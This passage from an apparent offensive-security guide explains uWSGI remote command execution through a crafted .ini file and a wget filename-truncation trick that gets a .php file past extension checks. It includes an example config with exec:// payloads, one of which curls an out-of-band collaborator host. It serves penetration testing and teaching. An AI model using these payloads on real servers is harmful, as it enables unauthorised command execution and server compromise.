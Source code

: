 ## **uWSGI RCE**

For a detailed exploration of this vulnerability check the original research: [uWSGI RCE Exploitation](https://blog.doyensec.com/2023/02/28/new-vector-for-dirty-arbitrary-file-write-2-rce.html).

Remote Command Execution (RCE) vulnerabilities can be exploited in uWSGI servers if one has the capability to modify the `.ini` configuration file. uWSGI configuration files leverage a specific syntax to incorporate "magic" variables, placeholders, and operators. Notably, the '@' operator, utilized as `@(filename)`, is designed to include the contents of a file. Among the various supported schemes in uWSGI, the "exec" scheme is particularly potent, allowing the reading of data from a process's standard output. This feature can be manipulated for nefarious purposes such as Remote Command Execution or Arbitrary File Write/Read when a `.ini` configuration file is processed.

Consider the following example of a harmful `uwsgi.ini` file, showcasing various schemes:

```ini
[uwsgi]
; read from a symbol
foo = @(sym://uwsgi_funny_function)
; read from binary appended data
bar = @(data://[REDACTED])
; read from http
test = @(http://[REDACTED])
; read from a file descriptor
content = @(fd://[REDACTED])
; read from a process stdout
body = @(exec://whoami)
; curl to exfil via collaborator
extra = @(exec://curl http://collaborator-unique-host.oastify.com)
; call a function returning a char *
characters = @(call://uwsgi_func)
```

The execution of the payload occurs during the parsing of the configuration file. For the configuration to be activated and parsed, the uWSGI process must either be restarted (potentially after a crash or due to a Denial of Service attack) or the file must be set to auto-reload. The auto-reload feature, if enabled, reloads the file at specified intervals upon detecting changes.

It's crucial to understand the lax nature of uWSGI's configuration file parsing. Specifically, the discussed payload can be inserted into a binary file (such as an image or PDF), further broadening the scope of potential exploitation.

## **wget File Upload/SSRF Trick**

In some occasions you may find that a server is using **`wget`** to **download files** and you can **indicate** the **URL**. In these cases, the code may be checking that the extension of the downloaded files is inside a whitelist to assure that only allowed files are going to be downloaded. However, **this check can be bypassed.**\
The **maximum** length of a **filename** in **linux** is **255**, however, **wget** truncate the filenames to **236** characters. You can **download a file called "A"\*232+".php"+".gif"**, this filename will **bypass** the **check** (as in this example **".gif"** is a **valid** extension) but `wget` will **rename** the file to **"A"\*232+".php"**.
